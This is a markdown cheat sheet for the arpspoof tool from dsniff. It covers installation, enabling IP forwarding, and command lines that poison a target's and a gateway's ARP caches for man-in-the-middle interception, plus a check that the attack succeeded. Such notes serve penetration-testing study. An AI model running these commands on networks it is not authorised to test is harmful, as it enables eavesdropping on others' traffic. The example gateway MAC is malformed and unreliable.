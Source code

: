 # Cybersecurity Utility - ARPspoof

ARPspoof is an ARP spoofing/poisoning utility

## Table of Contents
- [Information](#information)
- [Setup](#setup)
- [Documentation](#documentation)
- [Resources](#resources)
- [References](#references)
- [Remarks](#remarks)
- [Notes](#notes)

## Information

+ Utility Type: ARP Spoofing/Poisoning
+ Tool Area of Efficiency : Offensive (Red Team)
+ Penetration Testing stage : Scanning & Enumeration
+ Package Name: dsniff
+ Repository URL: 

## Setup

### Pre-Requisites

- Enable IP forward to make packets go through the attacker's device
    + echo 1 > /proc/sys/net/ipv4/ip_forward

### Dependencies

### Installing

- If installing via Package Manager
	- Debian-based (apt)
		```console
		sudo apt update

		sudo apt install dsniff
		```

## Documentation
### Synopsis/Syntax
+ arpspoof {options} [arguments...]
### Parameters
+ -i [interface]    : Specify your target interface
+ -t [Target to trick] [Attacker host device to Spoof]   : Specify your targets on the interface to trick that the attacker is the spoof device
### Usage
+ To trick Target-A to think that the Attacker is Target B
    ```console
    arpspoof -i eth0 -t 10.0.1.3 (Target to trick) 10.0.1.1 (Default Gateway / Attacker's target to spoof)
    ```
+ To trick the default gateway that the attacker is the target host
    ```console
    arpspoof -i eth0 -t 10.0.1.1 10.0.1.3
    ```

## Resources

## References

## Remarks

## Notes
- Check if attack is successful
    + Run arp -a (on the target’s machine) to check whether the MAC address of the default gateway has been changed
    + In the scenario above, Host A will see 51:35:23:43:12:33 as the MAC address of Default Gateway, whose real MAC address is 11:22:33:5:22:115

